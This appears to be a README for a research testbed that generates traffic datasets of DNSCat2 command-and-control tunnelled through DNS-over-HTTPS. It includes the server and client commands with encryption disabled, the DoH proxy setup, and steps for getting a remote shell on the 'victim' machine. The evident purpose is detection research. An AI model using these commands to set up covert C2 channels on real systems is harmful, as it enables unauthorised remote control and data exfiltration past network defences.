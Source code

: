 # Installation of the testbed network

Please, refer to the PDF file named: "_DNSCat2_testbed_network_configuration.pdf_".

# Manual usage 

**If you are using "Internal Network" option in VirtualBox, connect during few seconds VMs on Internet before return in Internal Network configuration**. It seems to be needed on each first run of the DoH server machine.

## DNSCat2 Server

Run the DNSCat2 server side before the client side:
```
$ cd dnscat2/server/
$ sudo ruby ./dnscat2.rb [domain] --security=open 
```

The option _--security=open_ allow to not encrypt all the DNS request.

## DoH proxy (if you want DoH communication, else go directly to next point about client)

Run the proxy:

```
$ su
# conda activate DoH_proxyConda
# doh-stub --listen-address [addressListeningHost] --listen-port [listeningPort] --domain [domainNameResolver] --cafile [pathToCertificateFile] 
```

## DNSCat2 Client

```
$ cd dnscat2/client/
$ ./dnscat --no-encryption --dns=server=[address_where_to_send_dns_requests],port=[PORT],domain=[domain]
```

The address of the server can be the address of the machine where the proxy is or the one of the machine of the server side of DNSCat2.



## How to execute commands in the shell of the victim

Since DNSCat2 is using windows like Metasploit to manage the communications, when the communication is established, on the server side, we can go to a window with this command:

```
> window -i 1
```

If no other communication has been established, the first communication is in the window 1 like we did.

In order to use the shell prompt of the victim (client), just execute `> shell`. Then, change to be on the window that has just been created: `> window -i 2`.

Then, you can execute shell commands !


# Automated production of dataset with DNSCat2

## C&C communication process with DNSCat2 and DoH (automated)

![Testbed network](DNSCat2_testbed_network.png)

All dataset production with DNSCat2 is managed from the Debian Controller machine. We run a python script that contacts the Debian Client and Debian Server machines via SSH using their domain names.

As indicated in the DNSCat2 Github documentation (https://github.com/iagox86/dnscat2), we first need to run the server side of DNSCat2. This is run as a background task by using the _dtach_ library, in order to not interrupt the Python script execution. We can communicate with this server side via a socket we've created (see code). The server side of DNSCat2 has a window system like Metasploit.<br>
Next, we can launch the forked version of a DoH proxy called "_doh-proxy_" (https://github.com/LoicCaudron/doh-proxy). Thanks to the certificate passed as a parameter downloaded from the DoH server machine after its configuration, the proxy connects to the Local DoH resolver. It listens for requests on the indicated port (5553) and retransmits them in HTTPS to the Local DoH resolver. **It's imperative to launch a connection within about 20 seconds, otherwise the connection between the proxy and the Local DoH resolver will be closed. If this exceeds the time limit, the process has to be killed and restarted**.<br>
Finally, the client side of DNSCat2 is runned, specifying the public IP address of the Debian Client machine and port destination (5553) to send DNS requests to the DoH proxy (the proxy doesn't seem to work when the loopback address and port 5553 are mentioned). If all goes well, communication is established and packets are exchanged every second or so.

C&C commands are sent using the Debian Controller's python code, which, through SSH, sends the commands to be executed to the DNSCat2 server side using the _dtach_ library and the socket created earlier. You then choose which window to use (usually window 1, unless there's a new connection, in which case it's the window with the incremented number). You can then either execute commands specific to DNSCat2 or request a shell which will open in window 2 if there are no other existing windows.

All the traffic is captured by the victim machine to have the traffic between the victim and the local DoH resolver.

## Running the process

- Pay attention that all the machines can communicate with each other in the same network (NAT network)
- Put the code files needed on the Controller machine:
    - constants.py
    - dnscat2_main.py
    - local_dnscat2_scenarios.json
    - utils.py
- Execute the Python script file "_dnscat2_main.py_" if you want to run the process with: `$ python dnscat2_main.py`
- Kill the process by using "_CTRL+C_" and the process has been coded to end when a communication is ended in order to not disturb the capture of traffic and have problems.

Please, refer to the code if you want to modify which C&C commands to execute and how much C&C commands to execute.